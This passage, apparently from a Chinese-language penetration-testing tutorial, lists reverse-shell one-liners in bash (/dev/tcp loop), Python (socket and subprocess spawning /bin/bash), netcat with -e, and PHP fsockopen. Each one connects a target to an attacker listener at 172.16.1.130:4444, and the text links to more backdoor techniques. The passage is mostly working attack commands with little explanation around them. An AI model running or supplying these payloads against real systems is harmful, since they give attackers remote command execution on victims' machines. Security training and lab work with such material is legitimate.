 ```bash
exec 5<>/dev/tcp/172.16.1.130/4444;cat <&5|while read line;do $line >&5 2>&1;done
```

这两个都是bash根据Linux万物皆文件的思想衍生过来的，具体更多bash的玩法你可以参考

https://xz.aliyun.com/t/2549

## python

攻击机Kali还是监听

```bash
nc -lvvp 4444
```

centos执行

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.1.130",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

这个payload是反向连接并且只支持Linux，Windows可以参考离别歌师傅的 [python windows正向连接后门](https://www.leavesongs.com/PYTHON/python-shell-backdoor.html)

## nc

如果目标机器上有nc并且存在`-e`参数，那么可以建立一个反向shell

攻击机监听

```bash
nc -lvvp 4444
```

目标机器执行

```bash
nc 172.16.1.130 4444 -t -e /bin/bash
```

这样会把目标机的`/bin/bash`反弹给攻击机

但是很多Linux的nc很多都是阉割版的，如果目标机器没有nc或者没有-e选项的话，不建议使用nc的方式

## php

攻击机监听

```bash
nc -lvvp 4444
```

要求目标机器有php然后执行

```php
php -r '$sock=fsockopen("172.16.1.130",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```
